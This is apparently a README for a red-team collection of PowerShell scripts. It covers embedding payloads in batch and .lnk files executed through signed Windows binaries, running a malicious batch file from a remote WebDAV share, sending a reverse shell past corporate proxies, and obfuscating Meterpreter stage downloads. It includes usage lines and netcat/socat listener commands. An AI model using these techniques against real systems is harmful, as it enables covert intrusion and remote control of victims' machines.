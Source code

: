 PowerShell Scripts
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

This repository aims at publishing some of PowerShell scripts. No rocket science, just a few scripts I created either to learn PowerShell or to fit basic needs in my security veil.

Invoke-EmbedInBatch
----------------
Inspired by @xorrior, this scripts embeds and hide any type of payload within a batch file and then executes it given a command line specified as an argument.
Examples:
```
Invoke-EmbedInBatch -PayloadPath installUtil.dll -FinalCommandLine "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U _payload_"
Invoke-EmbedInBatch -PayloadPath regsvr32.sct -FinalCommandLine "regsvr32.exe /s /u /i:_payload_ scrobj.dll"
Invoke-EmbedInBatch -PayloadPath standard.dll -FinalCommandLine "rundll32.exe _payload_,entrypoint"
Invoke-EmbedInBatch -PayloadPath payload.hta -FinalCommandLine "mshta.exe _payload_"
Invoke-EmbedInBatch -PayloadPath payload.exe -FinalCommandLine "_payload_"
```

The malicious batch file can then be executed locally on a target system, or even downloaded from a remote location with this command line:
`cmd.exe /k < \\webdavserver\folder\malicious_batch.txt`

Invoke-HideFileInLNK
----------------
This script creates a specifically forged link file (.lnk) to embed any type of file in it, as per the technique described here:
https://www.phrozen.io/page/shortcuts-as-entry-points-for-malware-part-3

The embedded file is first extracted from the link file using an inline VBS script, and the file is then called
either directly (if it's an executable or a script), or throuh a so called "Final Command". See examples section from the Invoke-HideFileInLNK function.

Invoke-SendReverseShell
----------------
This script sends a shell to a destination host (reverse shell). This is done:
  - on one side by spawning a cmd.exe child process and redirecting its standard Input, Output and Error streams
  - on the other side by either:
    - directly opening a TCP socket to the remote host, or
    - connecting through a proxy manually specified or by using the system's default one

When using a proxy to connect to the remote host, the proxy must support the CONNECT method and allow it to the destination port. If the destination port doesn't seem allowed by the proxy, try to bind your listener on port 443 as it's very likely that the proxy will allow the CONNECT method at least on that port.

The remote host simply has to listen on a TCP socket, for example:
  - With netcat: `# nc -l -p <any_port>`
  - With socat: `# socat TCP-L:<any_port>,fork,reuseaddr -`


proxyTunnel.ps1
----------------
This script creates a TCP tunnel towards a destination server through the system's default HTTP proxy, automatically handling upstream proxy authentication along the way if ever required. Tested OK with PowerShell v4.

A typical use would be for a client application that either can't handle connection through an HTTP proxy, or that doesn't support some sort of proxy authentication (eg: NTLM). So you would create a tunnel to the final destination (aka 'Origin Server') by having this script listening on a local network socket, and point your application to this local socket instead of the origin server. Well, basically a TCP tunnel...

Example:
```
powershell .\proxyTunnel.ps1 -bindPort 4444 -destHost myserver.example.com -destPort 22
```
From there, an SSH connection to 127.0.0.1:4444 will be tunneled, through the corporate proxy, to myserver.example.com:22

The scripts makes use of two hacks that might not work in future versions of PowerShell:
1. Forces the "CONNECT" method in the HttpWebRequest object, which is not officially allowed
2. Performs some reflective inspection in order to take control back over the underlying network stream once the connection is established (by default, the object is private)

I don't even understand why this is not made possible "by default" with the .Net API...

proxyMeterpreterHideout.ps1
----------------
This script is the client side script for a meterpreter stage download obfuscation technique for a reverse_winhttp payload.
Beware it does *NOT* work with the reverse_winhttpS payload.

Further explanations in the script itself.

![bitcoin](https://dl.dropboxusercontent.com/s/imckco5cg0llfla/bitcoin-icon.png?dl=0) Like these scripts ? Tip me with bitcoins !
![address](https://dl.dropboxusercontent.com/s/9bd5p45xmqz72vw/bc_tipping_address.png?dl=0)